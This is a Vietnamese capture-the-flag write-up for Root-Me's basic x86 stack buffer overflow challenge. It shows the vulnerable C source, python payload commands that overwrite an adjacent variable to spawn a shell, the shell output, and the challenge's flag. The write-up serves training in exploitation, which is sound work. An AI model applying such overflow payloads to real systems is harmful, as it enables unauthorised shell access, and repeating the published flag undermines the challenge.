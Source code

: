 # Co-che-hoat-dong-cua-ma-doc - challenge 1 CTF Write up
```html
ELF x86 - Stack buffer overflow basic 1 :  ssh -p 2222 app-systeme-ch13@challenge02.root-me.org
```
![image](https://user-images.githubusercontent.com/64201705/119267106-82396000-bc17-11eb-9fd0-b01bcdd084cc.png)

## Write up

```Text
Sau khi SSH vào server thì ta dùng lệnh cat để in code trong file source code ra
```
Ta sẽ được như này:

```C
#include <unistd.h>
#include <sys/types.h>
#include <stdlib.h>
#include <stdio.h>
 
int main()
{
 
  int var;
  int check = 0x04030201;
  char buf[40];
 
  fgets(buf,45,stdin);
 
  printf("\n[buf]: %s\n", buf);
  printf("[check] %p\n", check);
 
  if ((check != 0x04030201) && (check != 0xdeadbeef))
    printf ("\nYou are on the right way!\n");
 
  if (check == 0xdeadbeef)
   {
     printf("Yeah dude! You win!\nOpening your shell...\n");
     setreuid(geteuid(), geteuid());
     system("/bin/bash");
     printf("Shell closed! Bye.\n");
   }
   return 0;
}
```
Rõ ràng ta thấy để vào được shell bằng câu lệnh:
```C 
system("/bin/bash"); 
``` 
thì ta cần biến check có giá trị là 0xdeadbeef, mặt khác ở hai câu lệnh 
```C   
printf("\n[buf]: %s\n", buf);
printf("[check] %p\n", check); 
``` 
ta thấy chương trình sẽ in ra hai giá trị của buf và check, cho nên ta sẽ nghĩ tới việc ghi đè giá trị buf qua giá trị check ở trong bộ nhớ.
Mặt khác, vì biến buf được cấp bộ nhớ là 40 bytes cho nên trước hết ta sẽ ghi đầy 40 bytes này, sau đó ghi tiếp các bytes khác, các bytes này sẽ tiếp tục ghi lấn tới và ghi đè lên vùng nhớ của biến check, ta thử in 40 kí tự A và thêm 4 kí tự LDLD vào thì ta thấy biến buf và check có giá trị như sau:
```Bash
app-systeme-ch13@challenge02:~$ python -c "print 'A'*40 + 'LDLD'" | ./ch13 

[buf]: AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAADDDD
[check] 0x4c444c44

You are on the right way!
```
![image](https://user-images.githubusercontent.com/64201705/119267147-9c733e00-bc17-11eb-8abe-3a7c3ac480da.png)

Như kết quả in ra ta thấy biến check nhận giá trị là 0x4c444c44 ~ LDLD (hex -> text). Do đó để biến check nhận giá trị là 0xdeadbeef, ta sẽ thay đổi câu lệnh thành:
```Bash
app-systeme-ch13@challenge02:~$ python -c "print 'A'*40 + '\xef\xbe\xad\xde'" | ./ch13 

[buf]: AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAﾭ�
[check] 0xdeadbeef
Yeah dude! You win!
Opening your shell...
Shell closed! Bye.
``` 
Như trên, ta thấy đã chạy được lệnh để gọi shell nhưng chưa thể vào shell và giữ shell hoạt động, ta cần chỉnh lại một chút về câu lệnh bash phía trên thành:
```Bash
app-systeme-ch13@challenge02:~$ cat <(python -c "print 'A'*40 + '\xef\xbe\xad\xde'") - | ./ch13
```
Dấu - ở giữa cat và | sẽ giữ cho shell hoạt động và không bị tắt
```Bash
app-systeme-ch13@challenge02:~$ cat <(python -c "print 'A'*40 + '\xef\xbe\xad\xde'") - | ./ch13

[buf]: AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAﾭ�
[check] 0xdeadbeef
Yeah dude! You win!
Opening your shell...
id
uid=1213(app-systeme-ch13-cracked) gid=1113(app-systeme-ch13) groups=1113(app-systeme-ch13),100(users)
cat .passwd
1w4ntm0r3pr0np1s
```
Vậy flag hay password ở đây là:
## 1w4ntm0r3pr0np1s
